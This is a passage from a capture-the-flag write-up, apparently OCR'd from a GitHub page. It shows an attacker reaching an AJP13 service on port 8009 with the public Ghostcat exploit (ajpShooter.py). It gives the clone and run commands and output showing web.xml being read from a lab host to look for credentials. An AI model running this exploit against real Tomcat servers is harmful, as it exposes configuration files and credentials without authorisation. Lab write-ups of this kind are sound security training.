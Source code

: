   ```
  ===============================================================
  ```
  
- OK, so port 8009 with `ajp13` looks pretty suspicious to me and I wanted to exploit it, I found the right Ghostcat exploit for reading `/WEB-INF/web.xml` on the vulnerable server. You can find the exploit [here](https://github.com/00theway/Ghostcat-CNVD-2020-10487.git), it's a pretty cool one.
  
- I also did some digging on the web app, specifically through `manager-gui` since I already did the CTF room with that type of exploitation but unfortunately couldn't make it work. Let's move to exploitation and gaining access!

---

## ⚙️ Gaining Access

- `AjpShooter` script is easy to use, you clone the repo and then run the script with Python. It requires two arguments, `host` and `port`, after these inputs add the `/WEB-INF/web.xml` with flag `read` and it's done.
  We want to read `/WEB-INF/web.xml` since it contains credentials. Here's the output of that script. For more details about the script run `python3 ajpShooter -h` or check creators GitHub README.md.

  ```
  git clone https://github.com/00theway/Ghostcat-CNVD-2020-10487.git
  cd CNVD-2020-10487

  python3 ajpShooter.py http://10.10.120.105:8080 8009 /WEB-INF/web.xml read

   /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __
  
         _    _         __ _                 _            
        /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __ 
       //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
      /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |   
      \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|   
           |__/|_|                                        
                                                  00theway,just for test
      
  
  [<] 200 200
  [<] Accept-Ranges: bytes
  [<] ETag: W/"1261-1583902632000"
  [<] Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT
  [<] Content-Type: application/xml
  [<] Content-Length: 1261
  
  <?xml version="1.0" encoding="UTF-8"?>
  <!--
   Licensed to the Apache Software Foundation (ASF) under one or more
    contributor license agreements.  See the NOTICE file distributed with
    this work for additional information regarding copyright ownership.
    The ASF licenses this file to You under the Apache License, Version 2.0
    (the "License"); you may not use this file except in compliance with
    the License.  You may obtain a copy of the License at
  
        http://www.apache.org/licenses/LICENSE-2.0
  
    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
  -->
  <web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
  ```